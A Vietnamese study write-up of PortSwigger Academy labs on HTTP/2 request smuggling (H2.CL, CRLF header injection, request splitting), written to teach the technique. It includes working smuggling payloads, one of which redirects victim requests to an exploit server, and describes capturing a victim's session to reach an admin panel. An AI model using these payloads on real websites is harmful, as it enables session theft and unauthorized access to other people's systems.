





# Advanced request smuggling

Trong phần này ta sẽ tìm hiểu về smuggling với HTTP/2

# HTTP/2 request smuggling

HTTP/2 lại làm cho dễ xảy ra cuộc tấn công smuggling cho dù nó được phát minh ra để cản lỗ hổng này 

## HTTP/2 message length

Về cơ bản, request smuggling nhằm khai thác sự không thống nhất giữa cách các máy chủ khác nhau diễn giải độ dài của một yêu cầu. `HTTP/2` giới thiệu một cơ chế đơn lẻ và mạnh mẽ để xử lý vấn đề này, từ lâu đã được cho là giúp `HTTP/2` miễn nhiễm với request smuggling.

Mặc dù không thấy điều này trong Burp, các thông điệp HTTP/2 được gửi qua mạng dưới dạng một chuỗi các "khung" riêng biệt. Mỗi khung đều có trường độ dài rõ ràng, cho máy chủ biết chính xác số byte cần đọc vào. Do đó, độ dài của yêu cầu là tổng độ dài các khung của nó.

Lý thuyết cho rằng cơ chế này sẽ không để lại bất kỳ cơ hội nào cho kẻ tấn công để tạo ra sự không rõ ràng cần thiết cho request smuggling, miễn là trang web sử dụng `HTTP/2` từ đầu đến cuối. Tuy nhiên, trong thực tế, điều này thường không đúng do việc downgrand HTTP/2 xuống HTTP/1.

## HTTP/2 downgrading

`Downgrading HTTP/2` là quá trình viết lại các yêu cầu HTTP/2 theo cú pháp HTTP/1 để tạo ra một yêu cầu HTTP/1 tương đương. Các máy chủ web và reverse proxy thường thực hiện điều này để cung cấp hỗ trợ HTTP/2 cho các client trong khi vẫn giao tiếp với các máy chủ back-end chỉ hỗ trợ `HTTP/1`. Việc giảm cấp này là điều kiện tiên quyết cho nhiều cuộc tấn công được đề cập trong phần này.

## H2.CL vulnerabilities
Yêu cầu HTTP/2 không cần phải xác định độ dài rõ ràng trong một header. Khi giảm cấp, điều này khiến các máy chủ front-end thường thêm một header `Content-Length` của HTTP/1, và xác định giá trị của nó dựa trên cơ chế độ dài có sẵn của HTTP/2. Điều thú vị là các yêu cầu HTTP/2 cũng có thể tự bao gồm header `content-length`. Trong trường hợp này, một số máy chủ front-end sẽ chỉ sử dụng lại giá trị này trong yêu cầu HTTP/1 được tạo ra.

Theo đặc tả, bất kỳ header `content-length` nào trong yêu cầu HTTP/2 đều phải khớp với độ dài được tính bằng cơ chế nội bộ, nhưng điều này không phải lúc nào cũng được kiểm tra chặt chẽ trước khi giảm cấp. Kết quả là, có thể tiến hành tấn công smuggling bằng cách tiêm vào một header `content-length` gây hiểu lầm. Mặc dù front-end sẽ sử dụng độ dài ngầm định của HTTP/2 để xác định điểm kết thúc của yêu cầu, nhưng back-end HTTP/1 phải tham chiếu đến header `Content-Length` có nguồn gốc từ header đã tiêm vào, dẫn đến sự không đồng bộ.

Ví dụ: Phía Front-end (HTTP/2)
```http
            :method	        POST
            :path	        /example
            :authority	    vulnerable-website.com
            content-type	application/x-www-form-urlencoded
            content-length	0
GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1
```

Phía Back-end (HTTP/1)
```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1GET / H
```
Mẹo: Khi thực hiện một số cuộc tấn công smuggling, bạn sẽ muốn các header từ yêu cầu của nạn nhân được nối thêm vào tiền tố đã tiêm vào. Tuy nhiên, trong một số trường hợp, điều này có thể cản trở cuộc tấn công, dẫn đến các lỗi header trùng lặp và các vấn đề tương tự. Trong ví dụ trên, chúng tôi đã giảm thiểu vấn đề này bằng cách thêm một tham số ở cuối và một header `Content-Length` vào tiền tố đã tiêm vào. Bằng cách sử dụng một header `Content-Length` dài hơn một chút so với phần thân, yêu cầu của nạn nhân vẫn sẽ được nối vào tiền tố đã tiêm vào nhưng sẽ bị cắt ngắn trước phần header.

---

## 1. H2.CL request smuggling
https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling

Tắt update content-length, 
Đầu tiên ta gửi:
```http
POST / HTTP/2
Host: 0a43001c03c0c81780393f6f006100c9.web-security-academy.net
Content-Length: 0

SMUGGLED
```
với request thứ 2 ta thấy nó trả về 404 chứng tỏ ta đã điều hướng nó request lỗi.

máy chủ front-end sẽ lấy lại content-length = 0 trong http2 và vì thế nó sẽ thực hiện gửi 2 request


Payload:
```http
POST / HTTP/2
Host: 0a43001c03c0c81780393f6f006100c9.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0ad2007b0394c85b80693ee2018f005e.exploit-server.net
Content-Length: 5

x=1
```
Nó sẽ làm chuyển hướng request đến exploit server

---

## Request smuggling via CRLF injection
Ngay cả khi các trang web thực hiện các bước để ngăn chặn các cuộc tấn công `H2.CL` hoặc `H2.TE` cơ bản, chẳng hạn như xác thực giá trị `content-length` hoặc loại bỏ bất kỳ header `transfer-encoding` nào, định dạng nhị phân của HTTP/2 lại mở ra một số cách mới để vượt qua các biện pháp của front-end.

Trong HTTP/1, đôi khi bạn có thể khai thác sự khác biệt giữa cách các máy chủ xử lý ký tự xuống dòng độc lập (`\n`) để tiêm thêm các header bị cấm. Nếu back-end xem đây là một ký tự phân tách, nhưng front-end thì không, một số máy chủ front-end sẽ không phát hiện được header thứ hai.

```http
Foo: bar\nTransfer-Encoding: chunked
```

Sự khác biệt này không tồn tại khi sử dụng một chuỗi CRLF (`\r\n`) đầy đủ, vì tất cả các máy chủ HTTP/1 đều coi đây là ký tự kết thúc header.

Tuy nhiên, vì các thông điệp HTTP/2 là nhị phân chứ không phải dạng văn bản, nên các ranh giới của mỗi header được xác định bằng các điểm dừng cụ thể, không dựa trên ký tự phân tách. Điều này có nghĩa là `\r\n` không còn mang ý nghĩa đặc biệt nào trong giá trị của header nữa và do đó, có thể được đưa vào bên trong giá trị mà không khiến header bị tách ra:

```
foo	bar\r\nTransfer-Encoding: chunked
```
Điều này có vẻ không gây hại ngay từ đầu, nhưng khi nó được chuyển thành yêu cầu HTTP/1, \r\n lại được hiểu như một ký tự phân tách header. Kết quả là, máy chủ back-end HTTP/1 sẽ thấy hai header riêng biệt:

```http
Foo: bar
Transfer-Encoding: chunked
```
Điều này có thể mở ra cơ hội để tiêm thêm header `Transfer-Encoding` mà back-end không mong đợi, từ đó gây ra các cuộc tấn công request smuggling.

---

## 2. HTTP/2 request smuggling via CRLF injection
https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection

Với bài này ta sẽ dùng HTTP/2 và inject 1 header bằng `\r\n` và vì front-end sẽ không phát hiện được nên nó sẽ không xóa và bên back-end sẽ xử lí sai

\
\


---

## HTTP/2 request splitting

Ở HTTP/1.1 ta sẽ chia 2 request qua phần body của request 1, nhưng với HTTP/2 ta có thể chia thành 2 request qua Header.

Cách tiếp cận này linh hoạt hơn vì bạn không phụ thuộc vào các phương thức yêu cầu cho phép chứa body. Nên có thể sử dụng một yêu cầu GET:

```http
        :method	        GET
        :path	        /
        :authority	    vulnerable-website.com
        foo	
                        bar\r\n
                        \r\n
                        GET /admin HTTP/1.1\r\n
                        Host: vulnerable-website.com
```
Điều này cũng hữu ích trong các trường hợp `content-length` được xác thực và back-end không hỗ trợ mã hóa chunked.

### Xử lý việc rewrite của front-end
Để chia một yêu cầu trong phần header, bạn cần hiểu cách yêu cầu được rewrite bởi máy chủ front-end và tính đến điều này khi thêm bất kỳ header HTTP/1 nào theo cách thủ công. Nếu không, một trong các yêu cầu có thể thiếu các header bắt buộc.

Ví dụ, bạn cần đảm bảo rằng cả hai yêu cầu nhận được bởi back-end đều chứa một header `Host`. Các máy chủ front-end thường loại bỏ pseudo-header `:authority` và thay thế bằng một header `Host` mới khi chuyển đổi. Có nhiều cách thực hiện việc này, điều này có thể ảnh hưởng đến vị trí bạn cần thêm header `Host`.

Xem xét yêu cầu sau:
```
        :method	        GET
        :path	        /
        :authority	    vulnerable-website.com
        foo	
                        bar\r\n
                        \r\n
                        GET /admin HTTP/1.1\r\n
                        Host: vulnerable-website.com
```
Trong quá trình rewrite, một số máy chủ front-end thêm header `Host` mới vào cuối danh sách header hiện tại. Với front-end HTTP/2, điều này nằm sau header `foo` và cũng sau điểm mà yêu cầu sẽ bị chia tách ở back-end. Điều này có nghĩa là yêu cầu đầu tiên sẽ không có header `Host`, trong khi yêu cầu smuggled sẽ có hai header `Host`. Trong trường hợp này, bạn cần đặt header `Host` để nó nằm trong yêu cầu đầu tiên sau khi việc chia tách xảy ra:
```
        :method	        GET
        :path	        /
        :authority	    vulnerable-website.com
        foo	
                        bar\r\n
                        Host: vulnerable-website.com\r\n
                        \r\n
                        GET /admin HTTP/1.1
```
Bạn cũng sẽ cần điều chỉnh vị trí của bất kỳ header nội bộ nào mà bạn muốn thêm theo cách tương tự.

---

## 3. HTTP/2 request splitting via CRLF injection
https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection

ở context bài này ta sẽ dùng HTTP/2 để smuggling nên ta sẽ inject ở phần header. 

ta sẽ thêm 1 header `foo` với value 
```bar\r\n
\r\n
GET /x HTTP/1.1\r\n
Host: YOUR-LAB-ID.web-security-academy.net
``` 
việc này với front-end nó sẽ gửi đi request nhưng khi back-end xử lí và down-grade xuống HTTP/1.1 thì nó sẽ tách ra thành 2 request, điều này giúp request thứ 2 nằm trong bộ xử lí của back-end, khi có 1 victim gửi request đến sẽ nhận được response của request `GET /x` đang chờ đó và nếu mình gửi 1 request vào thời điểm ngay sau đó sẽ nhận được response của victim vừa gửi. 


vậy nên cách tấn công này cần gửi request nhiều lần và hầu như nhận về 404 là `GET /x` và 200 và chỉ 1 vài 302 là khi victim đăng nhập và được chuyển hướng ta sẽ bắt request này để lấy được session và đưa vào đăng nhập, và đưa vào request `GET /admin` ta cũng cần gửi nhiều lần vì đôi lúc sẽ nhận được 404 còn sót response nằm trong hàng chờ:\



